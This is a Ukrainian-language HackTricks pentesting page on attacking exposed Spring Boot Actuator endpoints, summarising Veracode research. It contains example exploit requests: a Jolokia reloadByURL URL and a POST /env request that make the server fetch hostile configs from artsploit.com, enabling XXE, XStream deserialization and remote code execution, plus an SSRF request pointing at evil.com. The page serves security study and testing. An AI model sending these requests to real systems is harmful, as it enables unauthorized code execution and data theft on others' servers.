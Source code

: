# Spring Actuators

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}

## **Spring Auth Bypass**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**З** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Exploiting Spring Boot Actuators

**Перевірте оригінальну публікацію з** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Ключові моменти:**

* Spring Boot Actuators реєструють кінцеві точки, такі як `/health`, `/trace`, `/beans`, `/env` тощо. У версіях з 1 до 1.4 ці кінцеві точки доступні без аутентифікації. З версії 1.5 і далі лише `/health` і `/info` за замовчуванням не є чутливими, але розробники часто відключають цю безпеку.
* Деякі кінцеві точки Actuator можуть розкривати чутливі дані або дозволяти шкідливі дії:
* `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart` та `/heapdump`.
* У Spring Boot 1.x актюатори реєструються під кореневою URL, тоді як у 2.x вони знаходяться під базовим шляхом `/actuator/`.

### **Техніки експлуатації:**

1. **Віддалене виконання коду через '/jolokia'**:
* Кінцева точка актора `/jolokia` відкриває бібліотеку Jolokia, яка дозволяє HTTP доступ до MBeans.
* Дію `reloadByURL` можна експлуатувати для перезавантаження конфігурацій журналювання з зовнішнього URL, що може призвести до сліпого XXE або віддаленого виконання коду через спеціально підготовлені XML конфігурації.
* Приклад URL для експлуатації: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Модифікація конфігурації через '/env'**:
* Якщо присутні бібліотеки Spring Cloud, кінцева точка `/env` дозволяє модифікацію властивостей середовища.
* Властивості можна маніпулювати для експлуатації вразливостей, таких як вразливість десеріалізації XStream у службі Eureka serviceURL.
*   Приклад POST запиту для експлуатації:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```
3. **Інші корисні налаштування**:
* Властивості, такі як `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url` та `spring.datasource.tomcat.max-active`, можна маніпулювати для різних експлуатацій, таких як SQL-ін'єкція або зміна рядків підключення до бази даних.

### **Додаткова інформація:**

* Вичерпний список стандартних актюаторів можна знайти [тут](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
* Кінцева точка `/env` у Spring Boot 2.x використовує формат JSON для модифікації властивостей, але загальна концепція залишається такою ж.

### **Схожі теми:**

1. **Env + H2 RCE**:
* Деталі про експлуатацію комбінації кінцевої точки `/env` та бази даних H2 можна знайти [тут](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).
2. **SSRF на Spring Boot через неправильну інтерпретацію імені шляху**:
* Обробка матричних параметрів (`;`) у HTTP іменах шляхів фреймворком Spring може бути використана для Server-Side Request Forgery (SSRF).
*   Приклад запиту для експлуатації:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}

